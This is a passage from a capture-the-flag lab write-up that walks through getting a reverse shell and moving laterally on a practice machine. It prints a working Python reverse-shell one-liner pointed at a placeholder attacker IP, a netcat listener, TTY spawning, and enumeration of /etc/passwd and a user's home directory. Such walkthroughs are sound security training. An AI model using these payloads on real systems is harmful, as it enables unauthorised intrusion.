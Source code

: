 Nice! We can execute commands on the target machine now.

## Reverse Shell

Now that we have remote code execution, we can work on gaining a reverse shell. You can either upload a reverse shell and execute that or just use a reverse shell payload.

I'm using a python reverse shell payload that you can find [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#ncat). Here's the payload. Just add your IP to it, and it's ready to use:

~~~sh
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR THM IP>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
~~~

Start a listener (`rlwrap nc -lvnp 4444`) and execute the payload above and you should receive a reverse shell on your listener:

~~~
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.35.110] 56552
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

We can also spawn a TTY shell using a python one-liner:

~~~
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@TechSupport:/var/www/html/subrion/uploads$
~~~

## www-data -> scamsite (lateral move)

Now we have a shell as `www-data`. Let's check for the users with console:

~~~sh
www-data@TechSupport:/$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
scamsite:x:1000:1000:scammer,,,:/home/scamsite:/bin/bash
~~~

There is a user named `scamsite`. Let's check this user's home directory:

~~~sh
www-data@TechSupport:/$ ls -la /home/scamsite
total 32
drwxr-xr-x 4 scamsite scamsite 4096 May 29  2021 .
drwxr-xr-x 3 root     root     4096 May 28  2021 ..
-rw------- 1 scamsite scamsite  151 May 28  2021 .bash_history
-rw-r--r-- 1 scamsite scamsite  220 May 28  2021 .bash_logout
-rw-r--r-- 1 scamsite scamsite 3771 May 28  2021 .bashrc
drwx------ 2 scamsite scamsite 4096 May 28  2021 .cache
-rw-r--r-- 1 scamsite scamsite  655 May 28  2021 .profile
-rw-r--r-- 1 scamsite scamsite    0 May 28  2021 .sudo_as_admin_successful
drwxr-xr-x 2 root     root     4096 May 29  2021 websvr
~~~
